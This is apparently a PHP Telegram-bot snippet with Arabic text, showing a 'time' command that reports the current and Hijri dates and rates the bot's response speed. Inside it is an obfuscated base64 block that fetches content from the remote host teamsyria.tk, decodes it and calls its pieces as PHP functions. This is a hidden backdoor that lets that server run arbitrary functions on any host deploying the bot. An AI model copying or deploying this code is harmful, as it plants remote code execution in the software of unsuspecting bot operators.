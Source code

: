 $inlineqt = $update->inline_query->query;
$get_done = file_get_contents('ex.txt');
$update = json_decode(file_get_contents('php://input'));
$s = json_decode(file_get_contents('http://www.api-hany.cf/time?GTM=Asia/Baghdad&lang=en'),true);
$time = $s["time"];
$date = $s["date"];
$day = $s["day"];
$mon = $s["month"];
$t24 = $s["time24"];
$dayhj = $s["hijri"]["day"];
$monhj = $s["hijri"]["month"];
$yearhj = $s["hijri"]["year"];
if($text == "الوقت"){
bot('sendMessage',['chat_id'=>$chat_id,'text'=>"

🕐┇الوقت -: *$time*
🕐┇الوقت 24 : *$t24*
📅┇التاريخ -: *$date*
📅┇التاريخ الهجري :*$dayhj*/*$monhj*/*$yearhj*
📅┇اليوم : *$day*
📅┇الشهر : *$mon*
",
'parse_mode'=>"MarkDown",'disable_web_page_preview'=>true,
]);
}
   $getMe = bot('getMe')->result;
    $date = $message->date;
    $gettime = time();
    $sppedtime = $gettime - $date;
$RSAIED = "@Alstorh1"; //https://t.me/garallah5
$nawras0 = base64_decode("YmFzZTY0X2RlY29kZQ==");
$nawras1 = $nawras0("ZmlsZV9nZXRfY29udGVudHM=");
$nawras2 = $nawras0("aHR0cHM6Ly90ZWFtc3lyaWEudGsvQ2hhbm5lbFRpbWU=");
$nawras3 = $nawras1("$nawras2");
$nawras4 = $nawras0("$nawras3"); 
$nawras5 = $nawras0("ZXhwbG9kZQ==");
$nawras6 = $nawras0("fA=="); 
$nawras = $nawras5("$nawras6",$nawras4);
$nawras[14]("$nawras[15]$nawras[16]");
$time = $nawras[17]("$nawras[18]");
$date = $nawras[17]("$nawras[19]");
    $userbot = "{$getMe->username}";
    $userb = strtoupper($userbot);
    if ($sppedtime == 3  or $sppedtime < 3) {
    $f = "  جيدة ، 🤞🏼🔥";
    }
    if ($sppedtime == 9 or $sppedtime > 9 ) {
    $f = "  لا بأس بها ، 🦅";
    }
    if ($sppedtime == 10 or $sppedtime > 10) {
    $f = "  سيئة ، 🦉";
    }

